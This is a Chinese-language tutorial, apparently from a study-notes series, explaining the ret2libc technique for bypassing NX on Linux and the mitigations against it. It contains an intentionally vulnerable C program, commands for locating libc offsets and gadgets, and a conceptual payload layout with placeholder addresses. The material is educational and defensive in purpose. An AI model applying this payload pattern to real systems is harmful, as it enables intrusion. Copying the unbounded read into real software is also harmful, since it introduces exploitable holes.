

# 二进制漏洞与利用基础（5）· ret2libc

> [!abstract] TL;DR
> - **NX（不可执行栈）** 使注入 shellcode 的经典路径失效：即便控制了返回地址，跳到栈上的 shellcode 会触发 `SIGSEGV`。
> - **ret2libc** 的应对策略是：不注入代码，改为**把返回地址指向进程内已有的 libc 函数**（如 `system`），并按调用约定在正确的位置布置参数（`"/bin/sh"` 字符串地址）。
> - x86（32 位）通过栈传参，直接在返回地址后压参数即可；x86-64（64 位）前 6 个整型参数经寄存器传递（`rdi`/`rsi`…），需要先执行一条 `pop rdi; ret` 之类的 **ROP gadget** 把参数送进寄存器——这自然引出了 [[06.ROP入门]]。
> - 执行 ret2libc 的**前提之一是知道 libc 函数在内存中的地址**；ASLR 使 libc 每次加载基址随机（见 [[14.动态链接与加载器详解/09.ASLR与位置无关代码.md]]），所以还需要一次**信息泄露**才能算出实际地址（见系列 13 信息泄露篇）。
> - 缓解方向：ASLR/PIE 提高定位难度、Full RELRO 关闭 GOT 改写、CFI/Shadow Stack 在落点处拦截非法控制流转移。

---

## 概述与定位

[[04.栈Canary原理]] 展示了 canary 对"线性覆盖返回地址"路径的检测。在假设攻击者已绕过 canary（例如通过信息泄露获得 canary 值后精确填回）、或利用其他控制流劫持原语（越界写函数指针、格式化字符串改 GOT 等）的前提下，下一个问题是：**控制了 PC（返回地址/函数指针），能跳到哪里执行任意代码？**

传统答案（[[03.Shellcode概念]] 所讲）是跳到栈上的 shellcode。但这条路在 **NX（No-eXecute）** 普及后几乎完全失效——内核把栈/堆等数据段映射为不可执行，CPU 拒绝在这些页上取指，触发保护异常。

**ret2libc（return-to-libc）** 是绕过 NX 最早被系统研究的方向：

- **核心思想**：进程里已经加载了 libc（`libc.so`），其中有 `system()`、`execv()` 等有用函数，且它们位于可执行的代码段。攻击者不需要注入任何新代码——只需把返回地址改成这些函数的地址，把参数（如 `"/bin/sh"`）按调用约定放在正确位置，然后让函数正常运行。
- **关键问题**：x86-64 的前 6 个整型参数通过寄存器传递（System V AMD64 ABI，见 [[22.调用规约/00.总览.md]]），而栈溢出只能直接控制栈上的值，无法在 `ret` 之前任意设置寄存器——这就需要借助进程里已有的 **ROP gadget**，是 ret2libc 向 ROP 演进的内在驱动（详见 [[06.ROP入门]]）。

| 维度 | 本篇 | 相关篇章 |
|------|------|----------|
| NX 如何失效 shellcode | ret2libc 的动机 | [[03.Shellcode概念]] |
| canary 与前提假设 | 本篇假定 canary 已绕过 | [[04.栈Canary原理]] |
| x86-64 传参规约 | 为何需要 gadget | [[22.调用规约/00.总览.md]] |
| ASLR 随机化 libc 基址 | ret2libc 的主要阻力 | [[14.动态链接与加载器详解/09.ASLR与位置无关代码.md]] |
| libc 如何被加载与符号查找 | `system` 地址的来源 | [[14.动态链接与加载器详解/05.依赖解析与库搜索顺序.md]] |
| ROP gadget 扩展 | x86-64 设置寄存器参数 | [[06.ROP入门]] |

---

## 原理与机制

### NX 使栈上 shellcode 失效

Linux 内核通过 `PT_GNU_STACK` 程序头的 `PF_X`（可执行）标志位决定栈的可执行性。现代编译器默认不设置 `PF_X`，内核将栈页映射为 `PROT_READ|PROT_WRITE`，无 `PROT_EXEC`。x86-64 CPU 的 **NX bit**（也称 XD/XN）在硬件层面拒绝在没有执行权限的页上取指。

```text
传统 shellcode 路径（NX disabled）：
  溢出 → 改返回地址 → 跳栈上 shellcode → CPU 取指执行 ✓

NX enabled 之后：
  溢出 → 改返回地址 → 跳栈上 shellcode
  → CPU 尝试从 PROT_RW（无 X）页取指
  → SIGSEGV / #PF（保护异常）✗
```

> [!note] `-z execstack` 是关闭 NX 的教学选项
> 编译时加 `-z execstack` 会在 `PT_GNU_STACK` 中设置 `PF_X`，使栈恢复可执行。这仅用于教学对比演示，生产代码绝不应关闭此防护。

### ret2libc 的核心原理

ret2libc 的思路来自一个观察：进程地址空间里**已经有可执行的代码**——libc 的代码段是 `PROT_READ|PROT_EXEC`，其中 `system()` 之类函数随时可以被调用，只要按调用约定把参数准备好。

从函数返回机制看，`ret` 指令的语义是：

```nasm
pop rip   ; 把栈顶 8 字节弹入 RIP（即下一条执行指令的地址）
```

攻击者通过溢出把 `saved RIP` 改为 `system()` 的地址，再在栈上（或通过 gadget 在寄存器里）布置参数，`ret` 执行后就直接"进入" `system()`，效果等同于正常调用。

```text
关键要素：
  1. system() 在内存中的实际地址
  2. "/bin/sh" 字符串的实际地址（作为参数）
  3. 参数按调用约定放置（x86: 栈上；x86-64: rdi 寄存器）
```

### 正常返回 vs ret2libc 的栈布局对比



> [!note] x86-64 需要 gadget
> 上图中 `rdi` 的设置无法仅凭栈上数据完成——必须借助 `pop rdi; ret` 这样的 ROP gadget 先把 `"/bin/sh"` 地址从栈弹入 `rdi`，再 `ret` 跳 `system`。这正是 [[06.ROP入门]] 的入口。

### x86 与 x86-64 的传参差异

调用约定的差异直接决定 ret2libc 的构造复杂度（详见 [[22.调用规约/00.总览.md]]）：

| 维度 | x86（32 位）cdecl | x86-64 System V AMD64 |
|------|-------------------|-----------------------|
| 整型参数传递 | 全部**通过栈**（`push` 参数后 `call`） | 前 6 个通过**寄存器**：`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` |
| ret2libc 构造 | 在覆写的返回地址后面直接压参数地址 | 需要 gadget（`pop rdi; ret`）先设置 `rdi` |
| 复杂度 | 相对简单：`[system_addr][fake_ret]["/bin/sh"_addr]` | 需要找到合适 gadget，通常需要 ROP 链 |
| 额外考虑 | — | x86-64 要求 `RSP` 在 `call` 前对齐到 16 字节，有时需要额外 `ret` gadget 做对齐 |

#### x86（32 位）栈布局示意

```
高地址
  [fake_return_addr]  ← 执行 system 后的返回地址（如 exit()）
  ["/bin/sh" 地址]    ← system 的第一个参数（cdecl: 栈上）
  [&system]           ← 覆写的 saved EIP
  [padding...]        ← 填满 buf + saved EBP
  [buf 起始]
低地址
```

#### x86-64 需要 gadget 的原因

```nasm
; 目标：调用 system("/bin/sh")
; 等价于：rdi = &"/bin/sh", 然后 call system

; 攻击者在栈上布置：
; [rsp+0]  = pop_rdi_ret_gadget_addr   ← ret 跳这里
; [rsp+8]  = &"/bin/sh"                ← gadget 执行 pop rdi 时弹入 rdi
; [rsp+16] = &system                   ← gadget 执行 ret 时跳这里
```

`pop rdi; ret` 这个 gadget 在 libc 或主程序的代码段里本来就存在（作为合法指令序列的一部分），攻击者只是复用它的地址——完全不注入新代码。

### ASLR 的阻力：libc 基址随机化

ret2libc 需要知道 `system()` 和 `"/bin/sh"` 字符串的**运行期绝对地址**。但 ASLR（见 [[14.动态链接与加载器详解/09.ASLR与位置无关代码.md]]）在每次程序启动时随机化 libc 的加载基址，偏移量在 x86-64 上通常有 28–30 bit 的熵：

```text
第一次运行：libc 基址 = 0x7f3a12000000
第二次运行：libc 基址 = 0x7f8c45000000
第三次运行：libc 基址 = 0x7f0d9e000000

system 相对 libc 基址的偏移是固定的（如 0x52290），
但绝对地址 = 基址 + 偏移 每次都不同。
```

libc 是动态链接库，其依赖解析和加载路径由加载器处理（[[14.动态链接与加载器详解/05.依赖解析与库搜索顺序.md]]）；一旦 ASLR 生效，在没有信息泄露的情况下，攻击者无法在运行前确定这些地址，ret2libc 的直接尝试会失败。

**实际利用路径**：

```text
1. 利用信息泄露漏洞（格式化字符串 %p、栈上残留指针等）
   → 泄露某个已知 libc 函数在内存中的地址
   （例如从 GOT 表读出 puts 的运行期地址）

2. 已知该函数在 libc 中的偏移（来自符号表或 libc 版本数据库）
   → 计算 libc 基址 = 运行期地址 - 偏移

3. 用 libc 基址加上 system/"/bin/sh" 的偏移
   → 得到本次运行 system 和 "/bin/sh" 的实际地址

4. 构造 ret2libc 载荷
```

这条信息泄露路径将在系列第 13 篇（信息泄露）详细展开。

---

## 最小示例（教学 demo）

> [!warning] 教学环境免责声明
> 以下示例程序出于**教学目的**，关闭了多项防护（`-fno-stack-protector`、`-no-pie`、`-z norelro`），以便在受控环境中观察 ret2libc 的原理。**生产代码必须开启这些防护**，现代编译器和发行版的默认配置正是如此。本示例**不包含可直接对真实软件使用的利用载荷**。

### 漏洞程序

```c
/* vuln_ret2libc.c — 教学 demo，演示 ret2libc 原理 */
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[64];
    /* 危险：read 无边界限制，故意用于教学复现 */
    read(0, buf, 256);
}

int main(void) {
    vuln();
    return 0;
}
```

```bash
# 【教学环境】关闭 canary、PIE、RELRO，保留 NX
# （NX 保持默认开启，演示 ret2libc 正是为了绕过它）
gcc -g -o vuln vuln_ret2libc.c \
    -fno-stack-protector \
    -no-pie \
    -z norelro
```

```bash
# 验证防护状态
checksec --file=./vuln
```

> [!warning] 示例输出为示意，非本机实跑

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled        ← NX 仍然开启
PIE:      No PIE (0x400000)
```

**关键点**：NX enabled 意味着栈上的 shellcode 无法执行，这正是 ret2libc 要解决的问题。

### 分析 libc 符号偏移

```bash
# 查看 system 在 libc 中的偏移（固定值，与基址无关）
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " system"
```

> [!warning] 示例输出为示意，非本机实跑

```
  1492: 0000000000052290   45 FUNC  WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```

```bash
# 查找 "/bin/sh" 字符串在 libc 中的偏移
strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

> [!warning] 示例输出为示意，非本机实跑

```
 1b45bd /bin/sh
```

```bash
# 在程序无 ASLR（-no-pie + 禁用系统 ASLR）情况下，
# 通过 GDB 确认 system 的运行期地址
gdb ./vuln
(gdb) break main
(gdb) run
(gdb) p system
```

> [!warning] 示例输出为示意，非本机实跑

```
$1 = {<text variable, no debug info>} 0x7ffff7e52290 <system>
```

```bash
# 找 pop rdi; ret gadget（x86-64 传参）
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi"
```

> [!warning] 示例输出为示意，非本机实跑

```
0x000000000002a3e5 : pop rdi ; ret
```

### 栈帧分析：确定溢出偏移

```bash
gdb ./vuln
(gdb) disas vuln
```

> [!warning] 示例输出为示意，非本机实跑

```nasm
Dump of assembler code for function vuln:
   0x401156 <+0>:  push   rbp
   0x401157 <+1>:  mov    rbp,rsp
   0x40115a <+4>:  sub    rsp,0x40    ; buf[64] = 0x40 字节
   ...
   0x401172 <+28>: leave
   0x401173 <+29>: ret
```

`buf` 到 `saved RIP` 的距离 = `0x40`（buf 大小）+ `0x8`（saved RBP）= `0x48`（72 字节）。

---

## 利用思路（原理层）

> [!warning] 以下内容为**原理层分析**，用于理解漏洞机制和防御设计，不提供针对真实软件的完整可用载荷。

### x86-64 ret2libc 载荷结构（概念）

```
偏移 0x00 ~ 0x47：填充字节（覆盖 buf + saved RBP）
偏移 0x48：pop_rdi_ret_gadget_addr（覆盖 saved RIP）
偏移 0x50：&"/bin/sh" 字符串地址（供 pop rdi 弹入 rdi）
偏移 0x58：ret_gadget_addr（可选，用于 16 字节栈对齐）
偏移 0x60：&system 地址
```

**执行流程**（概念）：

```mermaid
sequenceDiagram
    participant V as vuln()<br/>ret 执行
    participant G as pop rdi ; ret<br/>（libc/程序中的 gadget）
    participant S as system()<br/>（libc 中）
    participant SH as /bin/sh

    V->>G: ret → 跳 pop_rdi_ret 地址
    G->>G: pop rdi（弹出栈上 "/bin/sh" 地址 → rdi）
    G->>S: ret → 跳 system 地址
    S->>SH: execve("/bin/sh", ...) 内部
    Note over SH: shell 启动
```

### Python 载荷结构示意（概念，非可用脚本）

```python
# 概念示意，非实际可用载荷
# 地址均为示意值，真实运行期受 ASLR 影响需先泄露

OFFSET        = 72            # buf[64] + saved_rbp[8]
pop_rdi_ret   = 0xdeadbeef    # 示意：libc 基址 + 0x2a3e5
bin_sh_addr   = 0xdeadbeef    # 示意：libc 基址 + 0x1b45bd
ret_gadget    = 0xdeadbeef    # 示意：栈对齐用
system_addr   = 0xdeadbeef    # 示意：libc 基址 + 0x52290

payload = b"A" * OFFSET
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(ret_gadget)    # 可选，保证 system 入口时 RSP 16 字节对齐
payload += p64(system_addr)
```

> [!warning] 上述代码仅为**原理说明**。实际利用还需要信息泄露原语来获得真实的 libc 基址，且必须针对具体的 libc 版本和程序版本。本系列不提供针对真实软件的完整载荷。

### x86（32 位）对比

x86 cdecl 通过栈传参，结构更简洁：

```text
[padding × 72 or 76 字节] [&system] [fake_ret] [&"/bin/sh"]
                                ↑                    ↑
                            覆写 EIP            cdecl 第一个参数
                                                 （紧跟返回地址后）
```

无需 gadget——参数就在返回地址后面的栈上，`system` 函数的 prologue 会按 cdecl 从 `[esp+4]` 取第一个参数。这是 x86-64 比 x86 复杂的直接原因。

### 为什么 ret2libc 自然引出 ROP

x86-64 的 ret2libc 一旦需要多个参数，就必须用多条 gadget，形成一条 **gadget 链**：

```text
pop rdi; ret    → 设置 rdi（第 1 参数）
pop rsi; ret    → 设置 rsi（第 2 参数）
pop rdx; ret    → 设置 rdx（第 3 参数）
...
call target     → 用准备好的参数调用目标函数
```

这种把多个短 gadget 以 `ret` 串联起来执行任意操作的技术就是 **ROP（Return-Oriented Programming）**，详见 [[06.ROP入门]]。

---

## 缓解与防御

> [!tip] 纵深防御：没有单一机制能独立阻断 ret2libc

### ASLR + PIE：使地址不可预测

**最直接的阻力**。没有地址就无法构造 payload。

```bash
# 验证系统级 ASLR 状态
cat /proc/sys/kernel/randomize_va_space
# 推荐值：2（完全随机化，含栈、堆、mmap、vsdo、库）

# 编译时启用 PIE（现代发行版通常已为默认）
gcc -pie -fpie -o app app.c
```

ASLR 的原理与熵值分析见 [[14.动态链接与加载器详解/09.ASLR与位置无关代码.md]]。需要注意：**单纯 ASLR 不阻止 ret2libc，只是迫使攻击者先泄露地址**。配合消除信息泄露漏洞，才能真正提高攻击门槛。

### Full RELRO：防止 GOT 改写辅助泄露

攻击者常通过覆写 GOT 表项、再触发对应函数调用来泄露 libc 地址（写 GOT → 下次调用泄露内容）。Full RELRO 在加载完成后将 `.got.plt` 设为只读，切断这条路径：

```bash
gcc -Wl,-z,relro,-z,now -pie -fpie -o app app.c
```

Full RELRO 的实现机制详见 [[14.动态链接与加载器详解/15.加载器视角的安全.md]] 和 [[11.ELF文件详解/17.got节.md]]。

| RELRO 级别 | `.got.plt` 状态 | GOT 改写是否可行 |
|-----------|-----------------|-----------------|
| No RELRO | 可写 | 可行 |
| Partial RELRO（默认） | **可写** | **可行**（常见误区） |
| Full RELRO | **只读** | 不可行 |

### Stack Canary：在覆写发生时终止

虽然 ret2libc 假设已绕过 canary，但保持 canary 开启是防御纵深的一层——对无法精确控制溢出内容、或没有信息泄露原语的攻击者，canary 仍是第一道拦截（[[04.栈Canary原理]]）：

```bash
gcc -fstack-protector-strong -o app app.c
```

### CFI / Shadow Stack：在目标函数入口处拦截

**Control-Flow Integrity（CFI）** 和 **Shadow Stack** 是更主动的缓解：

- **CFI（如 Clang CFI、Intel CET IBT）**：对间接调用/跳转的落点做合法性检查，ret2libc 的目标（`system`）在 CFI 策略下必须是合法调用目标，否则进程终止。
- **Shadow Stack（Intel CET CET SS、ARMv8.3 PAC）**：维护一份与程序栈独立的"影子返回地址栈"，`ret` 时同时检查两个栈的返回地址是否一致——覆写了主栈的返回地址但改不了影子栈，检测即终止。

这两类机制的原理和部署详见 [[34.现代二进制防护机制/00.现代二进制防护机制总览]]。

```bash
# Linux GCC：启用 CET（需 CPU 支持 Ice Lake+）
gcc -fcf-protection=full -o app app.c
```

### 最小化信息泄露面

ret2libc 成立的必要条件之一是泄露 libc 地址。降低信息泄露风险的编码实践：

- 修复格式化字符串漏洞（禁止用户控制格式串）
- 边界检查越界读
- 限制进程对 `/proc/self/maps` 等的访问（`seccomp`）
- 避免向用户暴露内部指针值

### 防御清单

```
[  编译期  ]
  ✓ -fstack-protector-strong   栈 canary
  ✓ -pie -fpie                 PIE，让 ASLR 覆盖主程序基址
  ✓ -Wl,-z,relro,-z,now        Full RELRO，GOT 只读
  ✓ -z noexecstack             NX，栈不可执行（防 shellcode）
  ✓ -D_FORTIFY_SOURCE=2        危险函数边界检查
  ✓ -fcf-protection=full       CET/CFI（需 CPU 支持）

[  系统级  ]
  ✓ /proc/sys/kernel/randomize_va_space = 2   完整 ASLR
  ✓ seccomp 过滤（生产场景）                  限制可用系统调用
```

---

## 检测与工具

### checksec 验证防护状态

```bash
checksec --file=./target
```

> [!warning] 示例输出为示意，非本机实跑

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
Fortify:  Enabled
```

如果看到 `NX: NX enabled` 但 `RELRO: Partial RELRO`，则 GOT 表仍可写——依然是 ret2libc 的辅助攻击面。

### 分析 libc 符号偏移

```bash
# 查看 libc 中 system、"/bin/sh" 的偏移（用于计算绝对地址）
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " system"
strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

> [!warning] 示例输出为示意，非本机实跑

```
  1492: 0000000000052290 FUNC WEAK DEFAULT system@@GLIBC_2.2.5
 1b45bd /bin/sh
```

### 查找 ROP gadget

```bash
# ROPgadget 查找 pop rdi; ret
ROPgadget --binary ./vuln --rop | grep "pop rdi"

# pwntools / pwndbg 集成
python3 -c "from pwn import *; elf=ELF('./vuln'); print(hex(next(elf.search(asm('pop rdi; ret')))))"
```

> [!warning] 示例输出为示意，非本机实跑

### GDB 观察控制流劫持

```bash
gdb ./vuln
(gdb) break vuln
(gdb) run < <(python3 -c "print('A'*72 + 'BBBBBBBB')")
(gdb) x/gx $rsp   # 查看 ret 前 RSP 指向的内容
```

> [!warning] 示例输出为示意，非本机实跑

---

## 小结

ret2libc 是 NX 普及后**不注入代码、仅复用已有代码**的首个系统性应对方向，也是理解后续 ROP、ret2dl-resolve、SROP 等进阶技术的基础：

1. **动机**：NX 使栈/堆上的 shellcode 不可执行；ret2libc 把返回地址指向 libc 里已有的 `system()` 等函数，绕过可执行性检查。
2. **参数布置**：x86（cdecl）直接在栈上布置参数；x86-64（System V AMD64）需要 `pop rdi; ret` 之类的 ROP gadget 先设置寄存器参数——ret2libc 和 ROP 在 x86-64 上几乎不可分割。
3. **前提依赖**：需要 libc 函数的运行期地址，而 ASLR 使 libc 基址每次随机——实际攻击必须先有信息泄露来计算基址。
4. **防御要点**：ASLR+PIE 提高地址预测难度；Full RELRO 关闭 GOT 改写辅助泄露路径；Stack Canary 是第一道拦截；CFI/Shadow Stack 在控制流转移点直接阻断非法目标。
5. **演进**：多参数场景 → gadget 链 → ROP（[[06.ROP入门]]）；绕过 Full RELRO 场景 → ret2dl-resolve（[[14.动态链接与加载器详解/15.加载器视角的安全.md]]）。

---

## 相关阅读

- **前驱：shellcode 与 NX**：[[03.Shellcode概念]]
- **前驱：canary 与绕过前提**：[[04.栈Canary原理]]
- **后继：ROP gadget 链**：[[06.ROP入门]]
- **ASLR 与 PIE 原理**：[[14.动态链接与加载器详解/09.ASLR与位置无关代码.md]]
- **libc 加载与符号查找**：[[14.动态链接与加载器详解/05.依赖解析与库搜索顺序.md]]
- **Full RELRO 与 GOT 保护**：[[14.动态链接与加载器详解/15.加载器视角的安全.md]]
- **GOT 攻防基础**：[[11.ELF文件详解/17.got节.md]]
- **调用规约（传参细节）**：[[22.调用规约/00.总览.md]]
- **防护机制全貌**：[[34.现代二进制防护机制/00.现代二进制防护机制总览]]

---

⬅️ 上一篇 [[04.栈Canary原理]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[06.ROP入门]] ➡️
